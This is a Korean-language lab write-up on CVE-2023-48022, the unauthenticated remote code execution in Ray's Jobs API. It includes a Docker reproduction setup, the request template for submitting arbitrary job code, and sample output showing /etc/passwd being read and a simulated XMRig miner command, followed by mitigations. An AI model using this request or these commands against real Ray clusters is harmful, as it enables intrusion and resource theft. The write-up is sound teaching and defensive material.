



# Ray 인증 우회 원격 코드 실행 (CVE-2023-48022)

**Contributors**
- 전인선 ([GitHub @jeonis1018](https://github.com/jeonis1018))

---

## 배경

Ray는 Anyscale이 개발한 오픈소스 분산 컴퓨팅(Distributed Computing) 프레임워크로, AI 모델 학습·추론·데이터 처리 등의 워크로드를 여러 노드에 분산시켜 실행하는 데 사용된다. Ray 클러스터는 헤드 노드(Head Node)와 다수의 워커 노드(Worker Node)로 구성되며, 헤드 노드에서 대시보드(Dashboard) 및 Jobs API를 통해 작업을 관리한다.

Ray는 LLM 서빙, 강화학습, 하이퍼파라미터 튜닝 등 AI·ML 인프라에서 폭넓게 사용되며, 특히 클라우드 환경에서 대규모로 운용되는 경우가 많다. 이러한 특성상 공격 성공 시 고성능 GPU·CPU 자원에 직접 접근할 수 있어 공격자들의 주요 표적이 된다.

---

## 취약점 정보

| 항목 | 내용 |
|------|------|
| CVE ID | CVE-2023-48022 |
| CVSS | 9.8 (Critical) |
| 영향 범위 | Ray 헤드 노드의 Jobs API에 네트워크 접근이 가능한 모든 공격자 |
| 패치 여부 | **없음 (disputed)** |

Ray Dashboard는 기본 설정에서 `0.0.0.0:8265`에 바인딩되며, Jobs API(`/api/jobs/`)에는 인증(Authentication) 및 인가(Authorization) 메커니즘이 전혀 존재하지 않는다. 네트워크 접근이 가능한 공격자는 이 API에 임의의 Python·Shell 코드를 담은 Job을 제출하여 Ray 헤드 노드에서 원격 코드 실행(RCE)을 달성할 수 있다.

**Disputed 상태에 대하여**: Anyscale(Ray 개발사)은 이 동작이 의도된 설계이며, Ray는 신뢰할 수 있는 내부 네트워크에서만 운용되도록 설계된 프레임워크라는 입장을 유지하고 있다. 따라서 MITRE에 disputed로 등록되어 있으며 공식 패치는 제공되지 않는다. 그러나 2023년 9월부터 실제 공격 캠페인("ShadowRay")에서 인터넷에 노출된 Ray 클러스터를 대상으로 암호화폐 채굴 및 데이터 탈취가 광범위하게 이루어졌다.

**참고 자료**
- [NVD — CVE-2023-48022](https://nvd.nist.gov/vuln/detail/CVE-2023-48022)
- [Oligo Security — ShadowRay 원문 분석](https://www.oligo.security/blog/shadowray-attack-ai-workloads-actively-exploited-in-the-wild)
- [Ray Jobs API 공식 문서](https://docs.ray.io/en/latest/cluster/running-applications/job-submission/index.html)

---

## 환경 구성 및 재현

### 구성 요소

`ray-target`(rayproject/ray:2.6.3, 취약한 Ray 헤드 노드)와 `attacker` (python:3.11-slim, exploit.py 실행) 두 컨테이너가 Docker 브리지 네트워크에서 통신하며, `ray-target`의 8265 포트만 호스트에 노출된다.

### 실행

```bash
docker compose up --build
```

`ray-target`의 healthcheck(`GET /api/version`)가 통과되면 `attacker` 컨테이너가 자동으로 기동되어 exploit.py를 실행한다. Ray 헤드 노드 기동에는 환경에 따라 30–60초가 소요될 수 있다.
(최초 실행 시에는 Ray 이미지 다운로드로 수 분이 추가로 소요될 수 있다.)

exploit.py는 다음 순서로 동작한다.

1. `GET /api/version`으로 Ray가 준비됐는지 확인
2. 인증 없이 `POST /api/jobs/`에 악성 Job 제출 (Base64 인코딩된 페이로드)
3. 반환된 `job_id`로 상태 폴링 (`PENDING → RUNNING → SUCCEEDED`)
4. `GET /api/jobs/{job_id}/logs`로 실행 결과 stdout 수집

브라우저에서 `http://localhost:8265`에 접속하면 인증 없이 Ray Dashboard를
확인할 수 있다.



---

## 실행 결과

exploit.py가 성공적으로 실행되면 Ray 헤드 노드에서 실행된 코드의 출력이 아래와 같이 출력된다.

```
============================================================
  JOB OUTPUT (stdout from Ray worker)
============================================================
============================================================
[STAGE 1] Reconnaissance
============================================================
[*] User     : ray
[*] Hostname : <container-id>
[*] OS       : Linux-...
[*] CPU cores: 4
[*] /etc/passwd (first 5 lines):
    root:x:0:0:root:/root:/bin/bash
    ...

============================================================
[STAGE 2] Cryptominer Deployment (Simulation)
============================================================
[miner] Config dropped  -> /tmp/.xmrig.json
[miner] Would execute   -> /tmp/xmrig --config /tmp/.xmrig.json --daemonize
[miner] Threads         -> 4
[miner] Simulating hash computation for 10 seconds...
[miner] nonce=0        hash=<hex>... rate=0 H/s
...
[miner] Simulation done. Total hashes computed: XXXXXX
[miner] In a real attack, XMRig would persist and run indefinitely.

[+] RCE confirmed. Arbitrary code executed on Ray head node.
```

Stage 2의 채굴 동작은 SHA-256 해시 연산 루프로 구현된 시뮬레이션이다. 실제 채굴 풀 연결, XMRig 바이너리 다운로드, 또는 어떠한 실제 채굴 행위도 포함되지 않는다.





---

## 취약점 분석

취약점의 직접적인 원인은 Ray 헤드 노드 기동 시 전달하는 `--dashboard-host` 플래그 값이다.

```dockerfile
# ray-target/Dockerfile
CMD ["ray", "start", "--head", \
     "--dashboard-host=0.0.0.0", \
     "--dashboard-port=8265", \
     "--port=6379", \
     "--block"]
```

`--dashboard-host=0.0.0.0`을 지정하면 Dashboard(및 그 안에 포함된 Jobs API)가 모든 네트워크 인터페이스에 바인딩된다. 이 플래그를 지정하지 않을 경우 Ray는 루프백(loopback) 인터페이스인 `127.0.0.1`에만 바인딩하므로 외부 접근이 불가능하다.

취약한 엔드포인트는 다음과 같다.

```
POST http://<ray-host>:8265/api/jobs/
Content-Type: application/json

{
  "entrypoint": "<임의의 셸 명령 또는 Python 코드>",
  "runtime_env": {}
}
```

이 요청에는 API 키, 세션 토큰, 기타 어떠한 인증 헤더도 요구되지 않는다. 응답으로 `job_id`가 반환되며, Ray 헤드 노드는 즉시 `entrypoint`에 지정된 코드를 실행한다.

---

## 대응 방안

근본적인 패치가 존재하지 않으므로, 아래 방어 전략을 조합하여 적용해야 한다.

**1. 네트워크 격리 (가장 효과적)**
Ray 클러스터를 외부 네트워크와 분리된 VPC·내부망에서만 운용한다. 포트 8265를 방화벽 또는 보안 그룹으로 차단하여 신뢰할 수 없는 호스트의 접근을 원천 차단한다.

**2. 인증 역방향 프록시(Reverse Proxy) 적용**
Nginx 또는 Traefik을 앞단에 배치하고 Basic Auth 또는 OAuth2를 적용하여 `/api/jobs/` 엔드포인트에 대한 접근을 제한한다.

**3. `--dashboard-host` 바인딩 제한**
프로덕션 환경에서는 `--dashboard-host=127.0.0.1`로 설정하여 루프백 인터페이스에만 바인딩한다. 외부 접근이 필요한 경우 SSH 터널 등을 활용한다.

---

## 환경 종료

```bash
docker compose down -v
```

`-v` 플래그는 Docker 볼륨을 함께 제거하여 이전 실행의 상태가 다음 실행에 영향을 주지 않도록 한다.
